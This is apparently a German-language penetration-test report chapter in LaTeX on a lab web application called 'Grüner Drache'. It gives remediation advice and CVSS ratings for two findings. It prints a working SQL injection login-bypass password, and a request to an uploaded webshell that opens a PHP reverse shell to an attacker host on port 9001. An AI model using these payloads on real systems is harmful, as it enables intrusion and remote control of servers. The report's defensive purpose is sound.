\chapter{Grüner Drache}

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/screenshots/04_gruener_drache.png}
    \caption{Webanwendung Grüner Drache}
    \label{fig:02_gruener_drache}
\end{figure}
\newpage

\cvss{av=local, ac=low, pr=none, ui=required, s=changed, c=high, i=low, a=low}
\cvssdescription{SQL-Injection im Anmeldeformular führt dazu, dass sich Angreifer als Administrator ohne passende Credentials einloggen können.}

\section{\makecvssbadge Grüner Drache: SQL Injection im Anmeldeformular}
\cvssaddtosummary{Grüner Drache: SQL Injection im Anmeldeformular}

\subsection*{Proof of concept}

Mit Hilfe einer SQL-Injection in das Anmeldeformular der Webanwendung kann sich Zugang als Administrator verschafft werden. Durch diesen Admin-Zugriff können weiter Standard-Nutzer nach der Registrierung verifiziert bzw. freigeschalten werden. 

User: admin

Passwort: ' OR ''='

\subsection*{Empfehlungen} 
\begin{itemize}
    \item Eingabevalidierung: Validieren und Escapen sie alle Nutzereingaben, um Injection Angriffe zu verhindern.
    \item Prepared SQL-Statements: Mit Hilfe von Prepared SQL-Statements können SQL-Injection Angriffe verhindert werden, da dadurch Eingaben korrekt validiert und escaped werden.
\end{itemize}

\cvss{av=network, ac=low, pr=none, ui=required, s=changed, c=high, i=high, a=high}
\cvssdescription{Über eine Union-Based SQL-Injection beim Abbrechen einer Bestellung kann eine Webshell auf den Webserver hochgeladen werden.}

\section{\makecvssbadge Grüner Drache: Unsichere Order-Cancellation und File Upload über Union-Based SQL-Injection}
\cvssaddtosummary{Grüner Drache: Unsichere Order-Cancellation und File Upload über Union-Based SQL-Injection}

\subsection*{Proof of concept}
Zunächst muss mit einem Nutzer eine Bestellung aufgegeben werden, welche im Folgenden durch den Admin-Zugriff bestätigt werden kann. Danach muss die Bestellung durch den Nutzer gecancelt werden, dabei wird ein unsichere PHP Skript ausgeführt. Der initiale HTTP-Post kann abgefangen werdne und die Payload dieser Nachricht so abgeändert werden, dass eine WebShell mit dem SQL Befehl hochgeladen werden kann. Die Abgeänderte Payload mit der Union-Based SQL Injection ist in der Folgenden Listing aufgeführt. 

Die hochgeladenen Webshell ist unter der Domain \texttt{http://10.0.68.105/shell5.php} erreichbar. Über den Post-Parameter cmd können nun Befehle auf dem Webserver ausgeführt werden. Dadurch kann eine PHP-Reverse-Shell erstellt werden, welche dem Angreifer vollen Zugriff über den Webserver ermöglicht. Dieser Reverse Shell kann zusätzlich upgegraded werden, um Steuerzeichen verwenden zu können und mit Hilfe einer Privilegien-Eskalation administrativen Zugriff über den Webserver zu erhalten.

\begin{listing}[!ht]
\begin{minted}{bash}
GET /shell5.php?cmd=php+-r+'$sock%3dfsockopen("10.0.32.2",9001)%3bexec("/bin/sh+-i +<%263+>%263+2>\%263")%3b' HTTP/1.1
Host: 10.0.68.105 
[...]   
\end{minted}
\caption{Reverse Shell insertion}
\label{listing:drache:reverse-shell}
\end{listing}



\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/proofs/02_gruener_drache_proof.png}
    \caption{Proof für die Webanwendung Grüner Drache}
    \label{fig:02_gruener_drache_proof}
\end{figure}

\subsection*{Empfehlungen} 
\begin{itemize}
    \item Eingabevalidierung: Validieren und Escapen sie alle Nutzereingaben, um Injection Angriffe zu verhindern.
    \item Prepared SQL-Statements: Mit Hilfe von Prepared SQL-Statements können SQL-Injection Angriffe verhindert werden, da dadurch Eingaben korrekt validiert und escaped werden.
\end{itemize}
